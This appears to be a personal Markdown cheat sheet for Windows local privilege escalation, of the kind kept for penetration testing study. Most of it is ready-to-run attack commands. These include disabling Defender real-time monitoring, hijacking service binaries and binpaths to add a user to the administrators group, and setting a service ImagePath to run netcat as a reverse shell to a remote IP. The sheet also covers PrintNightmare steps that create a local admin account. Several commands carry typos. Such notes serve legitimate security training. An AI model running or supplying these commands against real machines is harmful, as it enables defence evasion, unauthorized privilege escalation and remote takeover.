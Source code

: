 [Windows Vulnerabilities.](https://msrc.microsoft.com/update-guide/vulnerability)

Disable windows AV 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## [User Account Control](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) 
consent prompted elevated privileges. 
[How it works](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) 
[10 Group Policy Settings](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/settings-and-configuration?tabs=intune)
Forces an attacker to become noisy. 
RID 500 Admin always operates at a higher mandatory level with Admin Approval Mode (AAM) enabled. 
New accounts operate at medium level.
Confirm UAC is enabled:
```shell-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

Check UAC level:
```shell-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

```powershell
[environment]::OSVersion.Version
```
0x5 is the highest level.
UAC works different on windows [versions](https://en.wikipedia.org/wiki/Windows_10_version_history)

#### [UAC bypasses.](https://github.com/hfiref0x/UACME)
Find a UAC that works in targets window version under keys. 
Google may have tutorial for exploit?
Run a DLL
```shell-session
rundll32 shell32.dll,Control_RunDLL <path to dll>
```

## Weak Permissions 
[SharpUp](https://github.com/GhostPack/SharpUp/) from GhostPack suite
Checks for weak ACLs on binaries. 
```shell-session
.\SharpUp.exe audit
```
Service Binaries:
Verify vuln with [icals](https://ss64.com/nt/icacls.html)
```shell-session
icals <path to exe>
```
Replace the binary with a malicious one through msfvenom
```shell-session
cmd /c copy /Y <exe> "<path to target>"
```
```shell-session
sc start <service name>
```
Service Permissions 
Check permissions with [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
```shell-session
accesschk.exe /accepteula -quvcw <service>` #(.exe not needed)
```

```shell
-q = omit banner
-u = surpress erros
-v = verobse
-c = specify name of windows service
-w = objects with write only. 
```


Change the service binary:
```shell-session
sc config WindscribeService binpath="cmd /c net localgroup administrators <user>/add"
```
Stop the service 
```shell-session
sc stop <service>
```
Start the service 
```shell-session
sc start <service>
```
confirm local access
```shell-session
net local group administrators
```
### Cleanup
Revert the binary path 
```shell-session
sc config <service> binpath="<path>"
```
Start the service 
```shell-session 
sc start <service>
```

### Unquoted Service Paths
Rare to exploit. If service path isn't in ""  windows will search for it in root path.  May be able to hijack the service. 

Search for unquoted service path:
```shell-session
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```
Permissive Registry ACLs. 

Search for weak ACLs
```shell-session 
accesschk.exe /accepteula "<user>" -kvuqsw hklm\System\CurrentControlSet\services
```
Change the ImagePath value in powershell
```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "<path to nc.exe> -e cmd.exe <reverse ip> <reverse port>"
```
Modify Registry Autorun Binaries.
```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```
If you have write permissions to a binary you may be able to escalate privileges next time that user logs in. 
## Kernel Exploits
If SAM is readable: [CVE-2021-36934](https://www.exploit-db.com/docs/50245)

### [CVE-2021-1675 / CVE-2021-34527](https://www.exploit-db.com/docs/50537)Print Nightmare
check for spoiler service 
```powershell
ls \\localhost\pipe\spoolss
```
Add local admin with printnightmare 
```powershell
Set-ExecutionPolicy Bypass -scope Process
```
Import powershell script
```powershell
Import-Module ./CVE-2021-1675.ps1

Invoke-Nightmare -NewUser "hacker" -NewPassword "1234" -DriverName "Print"
```
Confirm new user 
```shell-session
net user hacker
```

### Vulnerable Services
Permitted to install software or vulnerable third-party applications. 
Check installed programs
```shell-session
wmic product get name
```
Check local ports
```shell-session
netstat -ano
```
Check the process ID 
```shell-session
get-process -Id <PID>
```
Enumerate Running Service 
```shell-session
get-service | ? {$_.DisplayName -like '<name>'}
```

